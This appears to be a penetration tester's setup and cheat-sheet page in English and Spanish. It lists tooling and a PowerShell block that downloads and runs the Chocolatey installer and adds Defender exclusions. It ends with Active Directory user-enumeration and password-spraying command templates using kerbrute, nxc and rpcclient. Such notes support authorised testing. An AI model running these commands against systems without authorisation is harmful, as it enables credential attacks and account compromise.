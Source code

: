 ## Password Manager

- [https://proton.me/pass](https://proton.me/pass)
- [https://bitwarden.com/](https://bitwarden.com/)

## Note Taking

### Processing

- [https://notion.so/](https://notion.so/)
- [https://www.xmind.net/](https://www.xmind.net/)
- [https://obsidian.md/](https://obsidian.md/)

### Results

- [Ghostwriter](https://github.com/GhostManager/Ghostwriter)
- [pwndoc](https://github.com/pwndoc/pwndoc)

### Logging

PS1

```bash
PS1="\[\033[1;32m\]\342\224\200\$([[ \$(/opt/vpnbash.sh) == *\"10.\"* ]] && echo \"[\[\033[1;34m\]\$(/opt/vpnserver.sh)\[\033[1;32m\]]\342\224\200[\[\033[1;37m\]\$(/opt/vpnbash.sh)\[\033[1;32m\]]\342\224\200\")[\[\033[1;37m\]\u\[\033[01;32m\]@\[\033[01;34m\]\h\[\033[1;32m\]]\342\224\200[\[\033[1;37m\]\w\[\033[1;32m\]]\n\[\033[1;32m\]\342\224\224\342\224\200\342\224\200\342\225\274 [\[\e[01;33m\]$(date +%D-%r)\[\e[01;32m\]]\\$ \[\e[0m\]"
```

### Screenshots

- [Flameshot](https://github.com/flameshot-org/flameshot)
- [Peek](https://github.com/phw/peek)

---

## Update OS

```bash
sudo apt update -y && sudo apt full-upgrade -y && sudo apt autoremove -y && sudo apt autoclean -y
```

```powershell
Get-ExecutionPolicy -List
Set-ExecutionPolicy Unrestricted -Scope Process
Get-ExecutionPolicy -List
Install-Module PSWindowsUpdate
Import-Module PSWindowsUpdate
Install-WindowsUpdate -AcceptAll
Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://chocolatey.org/install.ps1'))
choco upgrade chocolatey -y
choco info vscode
choco install wsl2 python git vscode openssh openvpn nmap wireshark burp-suite-free-edition heidisql sysinternals putty golang neo4j-community openjdk microsoft-windows-terminal
RefreshEnv

Add-MpPreference -ExclusionPath "C:\Users\$env:USERNAME\AppData\Local\Temp\chocolatey\"
Add-MpPreference -ExclusionPath "C:\Users\$env:USERNAME\Documents\git-repos\"
Add-MpPreference -ExclusionPath "C:\Users\$env:USERNAME\Documents\scripts\"
```

##  Active Directory Enumeration & Attacks

### Obtener y visualizar información de un AD

| Tool | Description | OS | Lenguaje |
| - | - | - | - |
| [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) | Obtiene información de un AD | Windows | PowerShell |
| [SharpView](https://github.com/dmchell/SharpView) | Obtiene información de un AD | Windows | C# |
| [SharpHound](https://github.com/SpecterOps/BloodHound-Legacy/tree/master/Collectors) | Obtiene información de un AD para usar en BloodHound | Windows | C# |
| [BloodHound](https://github.com/SpecterOps/BloodHound) | Visualiza las relaciones en un AD | X | X |
| [BloodHound.py](https://github.com/fox-it/BloodHound.py) | Obtiene información de un AD | Linux | Python |
| [NetExec](https://www.netexec.wiki/ldap-protocol/bloodhound-ingestor) | Obtiene información de un AD | Linux | X |

### Enumerar usuarios

```bash
kerbrute userenum -d domain.tld --dc <ip-dc> /wordlist/path -o valid_ad_users
nxc smb <ip> -u '<user>' -p '<password>' --users
rpcclient -U '<user>' --password '<password>' <ip>
```

### Password Spraying

```bash
for u in $(cat <users-list>);do rpcclient -U "$u%" --password '<password>' -c "getusername;quit" <ip> | grep Authority; done
kerbrute passwordspray -d <domain> --dc <ip> <users-list>  '<password>'
nxc smb <ip> -u <users-list> -p '<password>'
```
